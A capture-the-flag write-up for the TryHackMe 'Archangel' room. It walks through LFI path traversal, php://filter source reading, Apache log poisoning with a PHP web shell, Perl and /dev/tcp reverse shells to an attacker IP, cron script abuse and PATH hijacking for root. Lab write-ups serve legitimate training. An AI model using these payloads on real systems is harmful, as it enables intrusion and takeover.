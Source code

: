 # Link
- https://tryhackme.com/room/archangel

# Info

## IP = $IP

# Ports

## Port Scanning
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## 22

## 80
- in email, It's possible to find domain name:
    - `mafialive.thm`
    - trade in _/etc/hosts_

### `mafialive.thm`
- first flag
- find in `robots.txt` or ...
- find, with manual test, the directory `http://mafialive.thm/test.php`

### `http://mafialive.thm/test.php`
- probable LFI
- yes: https://book.hacktricks.xyz/pentesting-web/file-inclusion#basic-lfi-and-bypasses
    - `view: /var/www/html/development_testing/..///////..////..//////..///////..////..//////etc/passwd`
- read `mrrobot.php` file
    - `view: php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`
    - second flag
- log poisoning
```bash
┌──(kali㉿kali)-[~]
└─$ nc $IP 80               
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```
```bash
view: /var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
cmd: perl -e 'use Socket;$i="$ATK_IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

# PrivEsc

- in `/home/archange`, the third flag is in `user.txt`

## _linpeas.sh_

- /opt/helloworld.sh
    - write permissions
    - in _crontab_
    - `/bin/bash -i 5<> /dev/tcp/$ATK_IP/1337 0<&5 1>&5 2>&5`

## with **archangel** account
- /home/archangel/secret/backup
- read `strings` -> call the `cp` command
- it's possible to create a new `cp` command that will be executed in this file owned by root
```bash
$ pwd
pwd
/home/archangel/secret
$ echo "#!/bin/bash" > cp
echo "#!/bin/bash" > cp
$ echo "/bin/bash" >> cp
echo "/bin/bash" >> cp
$ chmod +x cp
chmod +x cp
$ export PATH=$PWD:$PATH
export PATH=$PWD:$PATH
$ echo $PATH
echo $PATH
/home/archangel/secret:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
 ./backup
./backup
root@ubuntu:~/secret# cd /root
cd /root
root@ubuntu:/root# cat root.txt
cat root.txt
```